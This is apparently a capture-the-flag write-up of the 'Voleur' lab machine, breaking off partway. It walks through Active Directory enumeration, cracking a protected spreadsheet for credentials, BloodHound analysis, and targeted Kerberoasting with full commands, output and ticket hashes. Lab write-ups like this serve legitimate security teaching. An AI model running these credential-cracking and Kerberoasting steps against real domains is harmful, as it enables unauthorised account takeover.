








<script type="text/javascript" async
        src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js">
</script>


## Machine Information

As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: ryan.naylor / HollowOct31Nyt!

```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-04 16:06:33Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2222/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

Using nmap we already know the domain of the machine. From another windows machine, I saw someone using `dig` for DNS enumeration. Although it is not relevant, I used it and got the domain of the Domain Controller


```bash
dig any voleur.htb @10.10.11.76                                                                                       

; <<>> DiG 9.20.4-4-Debian <<>> any voleur.htb @10.10.11.76
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 14673
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;voleur.htb.                    IN      ANY

;; ANSWER SECTION:
voleur.htb.             600     IN      A       10.10.11.76
voleur.htb.             3600    IN      NS      dc.voleur.htb.
voleur.htb.             3600    IN      SOA     dc.voleur.htb. hostmaster.voleur.htb. 173 900 600 86400 3600

;; ADDITIONAL SECTION:
dc.voleur.htb.          3600    IN      A       10.10.11.76

;; Query time: 8 msec
;; SERVER: 10.10.11.76#53(10.10.11.76) (TCP)
;; WHEN: Sat Oct 04 04:16:17 EDT 2025
;; MSG SIZE  rcvd: 135
```

So add those domains in **/etc/hosts**

```shell
10.10.11.76 voleur.htb dc.voleur.htb
```

# User Flag

Windows machines sometimes feels really overwhelming coming into what you have to do, what potential vulnerabilities or attack vectors you could exploit, etc. From what i've seen, **SMB shares** is something always targeted for initial recon.


## SMB

There are plenty of tools to interact with smb share `smbclient`, `smbmap`, `netexec`, `impacket` etc.

When I tried to enumerate the **SMB shares**, I was getting this error 

```bash
$ crackmapexec smb 10.10.11.76 -u ryan.naylor -p HollowOct31Nyt --shares   
SMB         10.10.11.76     445    10.10.11.76      [*]  x64 (name:10.10.11.76) (domain:10.10.11.76) (signing:True) (SMBv1:False)
SMB         10.10.11.76     445    10.10.11.76      [-] 10.10.11.76\ryan.naylor:HollowOct31Nyt STATUS_NOT_SUPPORTED 
```

```bash
$ impacket-smbclient  'VOLEUR.HTB/ryan.naylor@dc.voleur.htb' 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] SMB SessionError: code: 0xc00000bb - STATUS_NOT_SUPPORTED - The request is not supported.
```

Some google searches indicated that this was due to `NTLM` authentication being disabled. `Kerberos` authentication had to be used with the tools. I though I had to use `getGTG` to request a kerberos ticket from the KDC and use it but it seems tools can do it by themselves.

```shell
netexec smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --shares --smb-timeout 500
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         dc.voleur.htb   445    dc               [*] Enumerated shares
SMB         dc.voleur.htb   445    dc               Share           Permissions     Remark
SMB         dc.voleur.htb   445    dc               -----           -----------     ------
SMB         dc.voleur.htb   445    dc               ADMIN$                          Remote Admin
SMB         dc.voleur.htb   445    dc               C$                              Default share
SMB         dc.voleur.htb   445    dc               Finance                         
SMB         dc.voleur.htb   445    dc               HR                              
SMB         dc.voleur.htb   445    dc               IPC$            READ            Remote IPC
SMB         dc.voleur.htb   445    dc               IT              READ            
SMB         dc.voleur.htb   445    dc               NETLOGON        READ            Logon server share 
SMB         dc.voleur.htb   445    dc               SYSVOL          READ            Logon server share 
```

Ryan has read access to the `IT` share. Using `impacket-smbclient` we can interact with the share and download files.

```shell
impacket-smbclient -k  dc.voleur.htb                         
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
Finance
HR
IPC$
IT
NETLOGON
SYSVOL
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 .
drw-rw-rw-          0  Thu Jul 24 16:09:59 2025 ..
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 First-Line Support
# cd First-Line Support
# ls
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 .
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 ..
-rw-rw-rw-      16896  Thu May 29 18:23:36 2025 Access_Review.xlsx
# get Access_Review.xlsx
```

## Cracking the xlsx

The `Access_Review.xlsx` is password protected (boring...), so I used `office2john` to crack it.



```shell
office2john Access_Review.xlsx > hash.txt 
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 128/128 SSE2 4x / SHA512 128/128 SSE2 2x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football1        (Access_Review.xlsx)     
1g 0:00:00:03 DONE (2025-10-04 14:07) 0.2680g/s 212.3p/s 212.3c/s 212.3C/s 123qwe..williams
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

`Access_Review.xlsx` has the following:



- **Deleted user**: Todd.Wolfe : NightT1meP1dg3on14
- **Service account**: svc_ldap   : M1XyC9pW7qT5Vn
- **Service account**: svc_iis    : N5pXyW1VqM7CZ8

Deleted user got me searching imidiately about recovering users and `AD bin` but that was the path for the root. 

```shell
 ## Check Credentials
nxc ldap dc.voleur.htb -u Todd.Wolfe -p 'NightT1meP1dg3on14' -d voleur.htb --kerberos
nxc ldap dc.voleur.htb -u 'svc_ldap'  -p 'M1XyC9pW7qT5Vn' -d voleur.htb --kerberos
nxc ldap dc.voleur.htb -u 'svc_iis'  -p 'N5pXyW1VqM7CZ8'  -d voleur.htb --kerberos
LDAP        dc.voleur.htb   389    DC.voleur.htb    [*]  x64 (name:DC.voleur.htb) (domain:voleur.htb) (signing:True) (SMBv1:False)
LDAP        dc.voleur.htb   389    DC.voleur.htb    [-] voleur.htb\Todd.Wolfe:NightT1meP1dg3on14 KDC_ERR_C_PRINCIPAL_UNKNOWN
LDAP        dc.voleur.htb   389    DC.voleur.htb    [*]  x64 (name:DC.voleur.htb) (domain:voleur.htb) (signing:True) (SMBv1:False)
LDAP        dc.voleur.htb   389    DC.voleur.htb    [+] voleur.htb\svc_ldap:M1XyC9pW7qT5Vn 
LDAP        dc.voleur.htb   389    DC.voleur.htb    [*]  x64 (name:DC.voleur.htb) (domain:voleur.htb) (signing:True) (SMBv1:False)
LDAP        dc.voleur.htb   389    DC.voleur.htb    [+] voleur.htb\svc_iis:N5pXyW1VqM7CZ8
```

## Bloodhound

We have two service accounts with valid credentials. I collected data for bloodhound using the `ldap` account

```shell
bloodhound-python -u svc_ldap -p M1XyC9pW7qT5Vn  -d voleur.htb -ns 10.10.11.76 -c All --zip  
```

From `bloodhound` **svc_iis** had nothing interesting to take advantage of



From the other side, **svc_ldap** has two very interesting path. First of all, we have `WriteSPN` over **svc_winrm** and `GenericWrite` over **second-line support technicians** and **Lacey Miller**. Besides that, he is member of **Restore_Users** group which spoils how are we going to use that later.



For now, we are more interested in **svc_winrm** that is member of **Remote Management** group in contrast to **Lacey Miller** that does not offer and interesting path.

The permission (and bloodhounnd) indicates `WriteSPN` indicates a `Targeted Kerberoasting` attack. I do not like to just use scripts and tools to perform an attack without understanding what is happening and why this is feasible. So, I spend some time reading about kerberos authentication and kerberoasting.

## Kerberos Authentication

The Kerberos authentication process involves 3 different entities:

- The `Key Distribution Center` (KDC), which has knowledge of all the secrets in the domain and is in charge of authenticating and distributing tickets.  
- The `client`, who is looking to access a service and is required to authenticate to the `KDC` with his secret before doing so. Clients can be both users or machines with a secret in the domain. Any client can request access for any service since Kerberos is not responsible for authorizing. Services handle authorization by themselves.  
- The `service` that the client wants to access. The service must be registered in the `KDC` with its Service Principal Name (SPN), which is a unique identifier for users to locate and use this specific service. Thanks to Kerberos, services can receive proof of identity from users, validated by the `KDC`.  

### Kerberos Authentication Stages

#### 1. AS-REQ (Authentication Service Request)

A client wants to authenticate to a service, so it reaches out to the Domain Controller with an `AS-REQ`. The `AS-REQ` includes, among other things, the supported encryption types:

- RC4 (eType 23)  
- AES128 (eType 17)  
- AES256 (eType 18)  

It also contains pre-authentication data, such as the timestamp of when the authentication request is made, encrypted with the client’s key (NTLM).  

#### 2. AS-REP (Authentication Service Response)

The KDC service decrypts the challenge in the `AS-REQ` ticket and validates the identity. The KDC then issues a Ticket Granting Ticket (TGT) that is partly encrypted with the KDC secret and partly with the user’s secret, and sends it to the client with the `AS-REP`.  

The TGT contains a portion encrypted with the user’s secret (NTLM), which includes a session key, ticket information, and the target SPN (the KDC default account `krbtgt`).  

The encrypted part of the TGT also contains details about the ticket (flags, lifespan, etc.), the client’s identity (name, group, UAC, etc.), and a copy of the session key.  

```bash
getTGT.py -dc-ip 10.10.11.76  voleur.htb/svc_ldap:M1XyC9pW7qT5Vn
[*] Saving ticket in svc_ldap.ccache
describeTicket.py svc_ldap.ccache 
```


#### 3. TGS-REQ (Ticket Granting Service Request)

The client then reaches back out to the Domain Controller letting it know that there is a Service he wants to authenticate - this is done by a TGS-REQ (Ticket Granting Service Request). 

- This includes the Service Principal Name of the services he wants to authenticate 
- The previously encrypted ticket (TGT) is also included as a way to validate that this came from the user as a means of authentication to the KDC

#### 4. TGS-REP

The KDC decrypts the TGT and verifies the identity of the client and the validity of the SPN service. It then creates a service Ticket (ST) and send it to client through TGS-REP. Part of the service ticket is encrypted with the secret of the targeted service. This part contains the client’s identity information, the targeted SPN and a copy of the service session key.

The content of an ST is similar to a TGT except that the field associated with the Service principal Name (SPN) will contain the reference to a declared service

## Kerberoast

`Kerberoasting` enables an attacker with a valid account on the network to retrieve Kerberos a Service Tickets for another account. As we saw, asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the `SPN` of the service wanted. If the TGT is valid, and if the service exists, the KDC sends the ST to the requesting user. 

The Service Ticket (ST) is encrypted with the service's `New Technology Lan Manager` (NT) hash. The attacker can permorm an offline bruteforce attack in an attempt to retrieve that service account's password. 

In reality, service accounts are managed directly by the domain controller and have very complex, long, and random passwords.

- Randomly generated with a length of 120 characters
- Renewed periodically every 30 days

This makes kerberoasting not possible. However, if the service account is maintained from a user with a human-defined password and has an SPN, cracking the Service Ticket is feasible.


## Targeted Kerberoasting 

Abusing permissions such as `GenericAll`, `GenericWrite`, `WriteProperty` of a controlled object over another user, we can add an SPN to that target and perform kerberoasting thus 'Targeted Kerberoasting`.

with **targetedKerberoast.py**

```shell
python targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -d voleur.htb 
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (lacey.miller)
$krb5tgs$23$*lacey.miller$VOLEUR.HTB$voleur.htb/lacey.miller*$1715c86f122792990d0b406b6715d2e5$2e6ca2fff8fd3d8b8640f56f5a937d8ff3a6f379549d79ec80fb5fcdec3ad8d4a0727151b2128886358c02f95f17ce0245b6759ed72f4d757c81b4e4fa850fac7981147a2a7ac3770925ddc21aa03f784a3dc1fb9671f819d3289877a9b53bf796235fc934ea1d5e3508faad45dbfe6e5e17a991f1d00107ccebc8805f5919cd06838d061ced0319ef806c4f214bd8ae25d0beedccebd8c78237320788f3cb397f01e6766739f3520a70d09b7706d00d7b8dec8e074315d801fe093700835f1d6c18e42370d1e6d720a2fe3ee66f779ab71e771e10c5b584aa2e827ff3f4936a6bebcf0adb98b93b11749eaa6fe26ea683975d395dc3eb2b0ca38789301c4dd4758e2cb31942a0981b72fe365951e27d771c098e8f04c2322b429a4bba358481fa54e02aaa544fdd8288b5284bf8778237818b9cbebdbdd1c9bccd0ec16094189d7c9626d95b52fedaba7351bf9c6801d29aa85533f7dbb417aef12d23e44a6101fa65d3002e658cac6f68a5847f296a4d55490d5d0bff204be61a6d9b8b4c9ebb6de7c29a67326cd25872827404d90960abf864be4e5749c8bf2621d6027ec13b9c87678581b5c54112a6d2c9d49b014d80dff4f13ce4ba7e653744d894374b7e5bf4da63019d6ad7dba3c3543807ed6775541f9f4a3d5d33a9b60ea5d0c668a73e3a069f68082818a1dd249bc3a5486ba279203c086443972ba0adc1d92c0f1c7302aaabc1ba2cb647708182840b735973d5f437fedd10987a250b6177f31e1c033547b2fe3909d35c5bf23512771989c571412b0400c0a4a6b350278fdbc74e3a77f09f5c4464f551c514958f4f68b221fb1af4be516f79c549e6f0acbd761b6645319960178be9eb9d80ebcac5a177514757ce54f1d0886d7c88d759cc0f98007e176aa50c25faf18874c87dd0255b3a8935d7c42575fd8862e32bc4c226212a06071b792dde3807b9db8c80c9fe2efded828b56d12365e3f703e5636e7ff27bcbc480ccbb07b69545cb6ab25a288b4dc26f5e45459a16accc6348ed8cc801ee04249eb91f982d0d1512811d5dbefe0c3501c7f47d936b2cad60ecb49cdbba880db10f200fe4ba4d0d676a2c3759ee6c5539ee0fe8012ddd372ee961378ad06453b7eba88d4d6867333bd9a39db807276308a358a73f50a3597d21c7dff40457040c2facff281d9ad510890ce13948bf54c328e90b2c89d645e95bc40886d77be8e06ef8253e5e2c4c1dd7e304275d19fbac37d6b6713deea38dc9af6c47139c13904a97639828ec246f13325b36178c148e1403b286233f119d884a19d29f63017f49e2f52d00df31b616cde4e3e739ddbc8dce036cbe822b3c3587d651206cc632dddf40e8aeaa099ca9d9ae988396fbf7df5d49783733a8db999c67897c62f6e1a2c98dc76541acce63ec2ae9de5d0fbf34c98ec1e7eefdba2001fa74b15eb8ce5a95d0b78e920f860d4e976cd6c14f
[+] Printing hash for (svc_winrm)
$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*$f68cceb440c3983cdab7ae8be0daeeaa$fb12345570c5626945d60366dfde9ca3530ddb49f01c88957a5a3c87d26c23b9c6df06d9363012946ca811acd6fdc4352536be5da65e0093308c199630acbd56ad1de063cda996ecb026ee0e15c4de94c7970350a21343eeed1c4bc285c2e924feb8c3db247d4e26f759e0c1b34cfc975c9d3637b9fceeb0535c7b174a34b7954e373c72273be67c334cf6bda5f7fa6750a2baa8932ce5539afd5f141eb15b09f1f01ecdf2c6ebe825b534c43f79ae971086b7b4c998ca11a625e3cb4a5987f1e0865781991879eba9ac3e14eab1828d190533fcc947c31b3e9ce7d32e5e8a7c4b33e7c98c77928f78bd815e8125689212ce6b2b1d3905662fc8911ea006e5b4b8eed0e8577389170e033d087c83520a442c883189b78f6a7ffd2c37041ffc7ea4a418d8ac96700652eccfd7f011411b39b593d40695c8ac6aac3fb5aecf039f6badf46c888bef40f74bdebb5c3c2a26cfffd807def0f8a250d498c1b791ca591f36108592c1d0a55a1355396dd4875980b4dc0c435c6ed846e77890cd36658ce85af3d203c0c81ce9ac97ba8576c281ba7dffab0e88d4b13ed95d9e39f3d0b6cf2b288dd171fd1a65b09be5b21ea8f85845713b102f50d4a318c9c967656058fbb6d3ea5dbf2b79d2a3f4ba5fa6435be7e6d24078d108ddfb719419a550695319ec8257d3a00eb8a9fb7ce17fb369a11d84ad414c57946668e81ebe5a308a14e4db8033417e8ceb1c7de47b88976c0fb6d6e4e4bcac99b092d03f1e4417c32a68f72bc21e563ac24dc12b2c96295bcdbf5ffd827135bb36a2408c38fbb4b6b9f24abd8144354283382cefb7b0ff61ad52cec2d3c965160ea6b4895c7f68f6b34078920cd30c1772ba20691152db9ef10b4841e5489b30c6d2b1cd76c638c7f7ed4212e99dd60025c0bcbaaa87da90e2cd4bd44b42d5bc775cef6b64239fdeebade56eaeb9d586de2ae8fa92710e5fbbd9060ad8c065d43f4bacbd2d899e3cef7aed08dadb8d393f018659db50d79f2923d4a8d3782903895585acd240326c28df8079e7d0b598743df83ec053aeb3f6a81af8315eafaddcdd808689da9497e0196ef2ec16bda433ff889382d24564d092a3ecc1a3e2e9bd227a5ada1b312518def803c6bb326cd68057b386ea0a42c0c2618c442c2f101430a7533949c9645d53be666687a8d56194d1d86b8d2abf51e4ee45f5efa1075cf26f1ba86c63b394f470345c3ddbf6bbf5e7765560712a9bdf32bdaa3e97542257ffc1318dca982a357607e3c122d3b2c2cd0ac3cc6dec6d4fad33592f4deb65fbca0b84fe404061e665638cde465e752050536a2306a7e7b52ca9acf412ae28ffb22ef13dde60e4bf2d769063045698f667c190b6fec05f7854303dc046d96df6d303cad01e5262be46a0ef1fe7c823672ad560b130e603a8fca3b246efa647748ce9f261048494373fb8dda628a310185f5fb148156ab6cd7e51

```

with **bloodyAD and Impacket**

```shell
bloodyAD --host dc.voleur.htb -d "voleur.htb" -u 'svc_ldap' -k set object 'svc_winrm' servicePrincipalName -v 'HTTP/sasukeeee'
[+] svc_winrm's servicePrincipalName has been updated
GetUserSPNs.py VOLEUR.HTB/svc_ldap -k -no-pass -dc-ip 10.10.11.76 -dc-host dc.voleur.htb -request-user svc_winrm                           
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name       MemberOf                                                PasswordLastSet             LastLogon                   Delegation 
--------------------  ---------  ------------------------------------------------------  --------------------------  --------------------------  ----------
HTTP/sasukeeee        svc_winrm  CN=Remote Management Users,CN=Builtin,DC=voleur,DC=htb  2025-01-31 04:10:12.398769  2025-10-12 02:54:53.043545             

$krb5tgs$23$*svc_winrm$VOLEUR.HTB$VOLEUR.HTB/svc_winrm*$2f27ddc4507daba144246f129a546bce$df95f9bd1b0dd11baf2c8874b2e661000c069631f53e3732681dfc77a6afd1813875e70c73c83e7be454142a3b03145e5460c54710370a3cd9fc675e1a9dde13eb349e53a25eca9589733338f9b5d30041c411a82ec0bad9aa92e4a265a48cc19586ce6dd39cb3637b3ada04276194925a256ea1372262caf15b9ee2d45f39e84d4f85948d9af726e70195e91f6ddbe84f53fda3782e1a177a5e74adfb96a05e577ccad471fa49e53296f63146cf908caab735a8cb14f20a9cae0cd29d15fee619980cbb7850c0a6f88d666f4b2da9cd08db19868692a78847a376d3c2c808fd1204c2d93d8255ff02ba473f300dce736b103fed7b788837a4cbd952930c0b871d74cafd64c7445ca7797acd9805c8350c10d0ee456ef7335afb70addd46f250a093dde757a0f3d2c009b0eea72519e929aea0d87c84fcb1ca883e615cf633553a0111a91ce87da3c5ba97d7257b4522204be0e3b064ac2a79e8c7fbe4b51a0330e9a8f919dedd85ee373588ca55b4c2b6fcc332e8db46eb2fa3b4ce3005a560fd307913e07ca19a57379eadcda31696afc1e61ee60a265ec5ac59de648e047ab4f728cfbdf5db10936ba567f066957cf65fc3b556345e802a98270ef524f056927997e5939f34d13418f7c3ce653aecf82d30084c990ef36d44a53e7e5a0b463a1e0eef726c46c15df04d4879405258e0ff67df34d7a7f40740d786e038b09e09646364418f1629528f46b38b768cc56577fd37e5066c0858c7ff0084dc183577ec19687a8c7443a63182c01efd9ba2f4501cabd7678578ea77c24099e5172cade2bf20a515a09c3d521eee66afbf2e0ad945cce2a9d06a579ede195f3a79757cd11b4f1f4aa0098d9175ca73da747521eef2706ed795a3b3aadfc13ffddc227be5b3248518473b867c27ae6dd149014e1e70cf24fafae62bcd4b8b74e3db6b28c1012c4ec1de820a76fe6b6f446bbd22ef9b71a26f1bf163072bff57aefe1ed1383305004c5d20fe5c6f4cefc1b0cf8fef0cbe54a5d5e280bc3b48e0cfa92612be49a88620d6b293dba63c19ecd1fb6119c73a3b19389a07c1f7bf3b8a89acafeeb13b8edfbdc41eed044131081d092e232b3d51e2a749df44350c5354593f6128b2055fcd92823c8bf376cf8627f110ac903f330e828eae84b5aee0afa3c392860b9b9ba4def0b93039d583c87c9354860c4967d0de7d8360771873e3bc7da0e7cc8451f48e0722f22476d0cb214b4ff7af9006fe816b1cdba9ed8b9b1462a3b3afd3918e0df437c01e8ab7cc33a8ead07a7b9954634357e61d0b034fb171e4e55cd975b3057199748e09180c6687a984ab78bfcd755692ab66e0c9d9ebfc465db26d04be43aa331b78d11d1bea57151d5be51fc381e3186e5575f72fe3c84c56a7e8ae8fbe5e1eb011dc25aafd65e8e2117fb111bc1052a128605d073b6b7e1e45378595c35590c4600687b7b47a722229

```

with **netexec**

```shell
nxc ldap "10.10.11.76" -d "VOLEUR.HTB" -u "svc_ldap" -p "M1XyC9pW7qT5Vn" --kerberoasting "roasted" --kerberos
LDAP        10.10.11.76     389    DC.voleur.htb    [*]  x64 (name:DC.voleur.htb) (domain:voleur.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.76     389    DC.voleur.htb    [+] VOLEUR.HTB\svc_ldap:M1XyC9pW7qT5Vn
LDAP        10.10.11.76     389    DC.voleur.htb    Bypassing disabled account krbtgt                                                                   
LDAP        10.10.11.76     389    DC.voleur.htb    [*] Total of records returned 1
LDAP        10.10.11.76     389    DC.voleur.htb    sAMAccountName: svc_winrm memberOf: CN=Remote Management Users,CN=Builtin,DC=voleur,DC=htb pwdLastSet: 2025-01-31 04:10:12.398769 lastLogon:2025-10-11 09:52:13.067488          
